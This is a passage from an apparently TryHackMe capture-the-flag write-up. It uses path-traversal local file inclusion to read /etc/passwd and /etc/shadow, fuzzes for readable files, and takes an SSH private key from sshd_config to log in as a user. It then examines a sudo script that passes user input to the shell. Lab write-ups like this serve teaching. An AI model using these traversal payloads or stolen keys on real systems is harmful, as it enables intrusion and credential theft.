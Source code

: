 So `http://dev.team.thm/script.php?page=/../../../../../../../etc/passwd` will become this `http://dev.team.thm/script.php?page=/../../../../../../../etc/shadow`

This is a very fast way of finding files via an LFI.

Under the `fuzzer` tab you can find all the requests it tried. If you filter the body via size you can see all the files that was found as they have a size greater then 0 like so

<p align="center">
  <img class="image" width="auto" height="auto" src="https://imgur.com/njKdaoo.png">
</p>


After looking through them I found the following file `/etc/ssh/sshd_config` contained an `id_rsa` for the account `dale`
Take this and save it. Remember to remove all the `#` and chmod 600 it.

---
## SSH access

Now login to SSH

`ssh -i id_rsa dale@192.168.88.129`

We now have a SSH connection as the user `dale`

Grab the `user.txt` flag

`cat user.txt`

---
## Priv esc 1

Doing `sudo -l` shows the following
```bash
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```
Lets see what this script does

```bash
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```
This script is taking user input and assigning this to the value of `$error` and then sending this straight to the shell. THIS IS A NO NO!
